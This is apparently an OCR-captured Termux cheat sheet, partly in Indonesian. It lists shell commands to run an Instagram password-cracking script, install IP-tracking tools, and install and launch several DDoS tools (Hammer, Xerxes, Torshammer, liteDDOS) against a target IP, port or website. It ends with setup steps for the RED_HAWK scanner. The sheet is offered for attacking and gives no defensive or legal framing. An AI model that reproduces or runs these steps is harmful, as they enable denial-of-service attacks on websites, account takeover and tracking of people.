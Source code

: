 $ cat pass.txt
$ ls
$ python hackinsta.py
Localizar ip
Apt install python git
git clone https://github.com/maldevel/IPGeoLocation.git
cd IPGeoLocation
chmod +x ipgeoLocation.py
pip install -r requirements.txt
python ipgeolocation.py -m
python ipgeolocation.py -t http://www.google.com
Lacak IP
git clone https://github.com/maldevel/IPGeolocation
cd IPGeolocation
chmod +x ipgeolocation.py
pip install -r requirements.txt
python ipgeolocation.py -m
python ipgeolocation.py -t IP yang ingin dilacak
TOOL DDOS VIA TERMUX
1. Hammer
$ pkg update (tekan enter)
$ pkg upgrade (tekan enter)
$ pkg install python (tekan enter)
$ pkg install git (tekan enter)
$ git clone https://github.com/cyweb/hammer (tekan enter)
$ cd hammer (tekan enter)
$ python hammer.py (tekan enter)
$ python hammer.py -s [IP target] -p [port] -t 135 (tekan enter)  
2. Xerxes
$ apt install git
$ apt install clang
$ git clone https://github.com/zanyarjamal/xerxes
$ ls
$ cd xerxes
$ ls
$ clang xerxes.c -o xerxes
$ ls
$ ./xerxes (nama website) 80
3. Torshammer
$ pkg update
$ pkg install git
$ apt install tor
$ pkg install python2
$ git clone https://github.com/dotfighter/torshammer.git
$ ls 
$ cd torshammer
$ python2 torshammer.py
4. liteDDOS
$ apt update
$ apt upgrade
$ pkg install git
$ pkg install python2
$ git clone https://github.com/4L13199/LITEDDOS
$ cd LITEDDOS
$ python2 liteDDOS.py
RED_HAWK tool
$ apt update
$ apt install git
$ git clone https://github.com/Tuhinshubhra/RED_HAWK
$ cd RED_HAWK
$ chmod +x rhawk.php
$ apt install php
$ ls
$ php rhawk.php